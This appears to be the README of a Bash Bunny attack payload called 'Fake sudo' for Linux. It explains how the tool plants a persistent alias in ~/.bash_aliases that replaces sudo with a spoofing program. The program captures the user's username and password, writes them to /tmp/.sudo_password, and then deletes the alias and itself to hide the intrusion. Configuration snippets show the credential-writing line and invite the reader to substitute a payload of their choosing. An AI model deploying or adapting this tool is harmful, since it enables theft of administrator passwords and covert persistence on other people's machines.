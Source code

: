 # Fake sudo

- Title:         Fake sudo
- Author:        TW-D
- Version:       1.1
- Target:        Linux
- Category:      Phishing

## Description

1) Copies the "sudo" command spoofing program to the user's home directory.
2) Defines a new persistent "sudo" alias with the file "~/.bash_aliases".
3) When the user "sudoer" executes the command "sudo" in a terminal, the spoofing program :
- __By default__ retrieves the username and password and writes them to "/tmp/.sudo_password".
- __But__ this behavior can be changed in line 26 of the "sudo-phishing.sh" file.
4) The spoofing program deletes the "sudo" alias. Then it deletes itself.

## Configuration

From "payload.txt" change the values of the following constant :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"

```

From "sudo-phishing.sh" change the values of the following constants if necessary :
```bash

readonly MAXIMUM_ATTEMPTS=3
readonly ERROR_MESSAGE="sudo: ${MAXIMUM_ATTEMPTS} incorrect password attempts"

```

From "sudo-phishing.sh", change the payload if you wish :
```bash
##
# <YOUR-PAYLOAD>
##
/bin/echo "${USER}:${sudo_password}" > /tmp/.sudo_password
##
# </YOUR-PAYLOAD>
##
```
